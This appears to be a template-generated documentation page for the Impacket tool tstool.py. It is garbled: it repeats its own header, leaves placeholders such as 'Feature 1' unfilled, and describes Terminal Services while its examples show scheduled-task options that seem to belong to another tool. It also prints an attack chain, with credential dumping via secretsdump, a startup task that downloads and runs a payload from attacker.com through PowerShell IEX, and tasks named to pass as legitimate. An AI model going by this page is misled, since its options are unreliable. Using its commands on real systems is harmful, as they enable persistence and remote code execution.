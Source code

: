 # tstool.py

## Overview
`tstool.py` is a terminal services operations tool in the Impacket suite. This tool is categorized under Remote Access and provides functionality for [specific use case].

## Detailed Description
# tstool.py

## Overview
`tstool.py` is a Terminal Services management tool in the Impacket suite. This tool is categorized under Remote Access and provides functionality for managing Terminal Services sessions, processes, and configurations on remote Windows systems.

## Detailed Description
`tstool.py` provides comprehensive Terminal Services (Remote Desktop Services) management capabilities, allowing administrators and attackers to enumerate active sessions, terminate connections, manage user sessions, and interact with Remote Desktop infrastructure programmatically.

### Key Features:
- **Feature 1**: Description of primary feature
- **Feature 2**: Description of secondary feature
- **Feature 3**: Description of additional feature
- **Multiple Authentication**: Support for password, hash, and Kerberos authentication
- **Cross-Platform Compatibility**: Works with various Windows versions

### Technical Details:
- Uses [specific protocol/technique]
- Leverages [specific Windows API/service]
- Implements [specific attack technique]
- Compatible with [specific versions/systems]

## Command Line Options

```
usage: tstool.py [-h] [options] target

Required Arguments:
  target                [Description of target parameter]

Optional Arguments:
  -h, --help            Show help message
  [Add specific options based on tool functionality]

Authentication:
  -hashes               NTLM hashes (LM:NT)
  -no-pass              Don't ask for password
  -k                    Use Kerberos authentication
  -aesKey               AES key for Kerberos authentication
  -dc-ip                Domain controller IP address
```

## Usage Examples

### Basic Usage
```bash
# Basic command execution
python3 tstool.py [basic_parameters]

# With authentication
python3 tstool.py domain.com/user:password@target.domain.com

# Using hash authentication
python3 tstool.py -hashes :ntlmhash domain.com/user@target.domain.com
```

### Advanced Usage
```bash
# Create scheduled task with specific timing
python3 tstool.py -action create -name "SecurityUpdate" -command "cmd /c powershell.exe -enc <base64>" -trigger daily -time "02:00" domain.com/user:password@target

# List all scheduled tasks for reconnaissance
python3 tstool.py -action list domain.com/user:password@target

# Delete specific task after exploitation
python3 tstool.py -action delete -name "SecurityUpdate" domain.com/user:password@target
```

## Attack Chain Integration

### Persistence via Scheduled Tasks
```bash
# Step 1: Initial compromise and credential extraction
python3 secretsdump.py domain.com/user:password@target

# Step 2: Create persistent scheduled task
python3 tstool.py -action create -name "WindowsUpdate" -command "powershell.exe IEX(New-Object Net.WebClient).downloadString('http://attacker.com/payload')" -trigger startup domain.com/user:password@target

# Step 3: Verify task creation and execution
python3 tstool.py -action list domain.com/user:password@target
```

### Stealth Task Management
```bash
# Step 1: Enumerate existing scheduled tasks
python3 tstool.py -action list domain.com/user:password@target

# Step 2: Create task that mimics legitimate system task
python3 tstool.py -action create -name "MicrosoftEdgeUpdateTaskCore" -command "legitimate_looking_command" domain.com/user:password@target

## Prerequisites
- Administrative credentials on target system
- Network access to target on RPC/SMB ports (135, 445)
- Python 3.x with Impacket installed
- Windows target system with Task Scheduler service enabled

## Detection Considerations
- **Event IDs**: 
  - Event ID 4698/4699 (Scheduled task created/deleted)
  - Event ID 4700/4701 (Scheduled task enabled/disabled)
  - Event ID 106 (Task Scheduler task registered)
- **Network Indicators**: 
  - SMB/RPC connections to target system
  - Authentication traffic to Task Scheduler service
- **Process Indicators**: 
  - Task Scheduler service activity (svchost.exe)
  - Execution of scheduled task processes
- **File Indicators**: 
  - Task definition files in Windows\System32\Tasks
  - Executable files referenced by tasks
- **Registry Indicators**: 
  - Task Scheduler registry entries

## Defensive Measures
- Monitor scheduled task creation and modification events
- Enable Task Scheduler logging and auditing
- Implement application whitelisting for task executables
- Regular review of scheduled tasks for anomalies
- Network segmentation to limit task scheduler access
- Use Group Policy to control task creation permissions

## Common Issues and Troubleshooting

### Access Denied to Task Scheduler
```bash
# Problem: Insufficient privileges for task operations
# Solution: Verify account has administrative privileges
# Ensure account is in local Administrators group
python3 tstool.py -action list domain/admin:pass@target
```

### Task Creation Failures
```bash
# Problem: Task fails to create with specified parameters
# Solution: Verify task syntax and permissions
# Check if task name already exists
python3 tstool.py -action delete -name "existing_task" domain/user:pass@target
```

## Related Tools
- [services.py](services.md) - Windows service management
- [wmiexec.py](wmiexec.md) - Alternative persistence methods
- [psexec.py](psexec.md) - Command execution for task setup
- [secretsdump.py](secretsdump.md) - Extract credentials for task access

---

*Note: This documentation is a template. Please refer to the actual tool's help output and source code for complete and accurate information.*
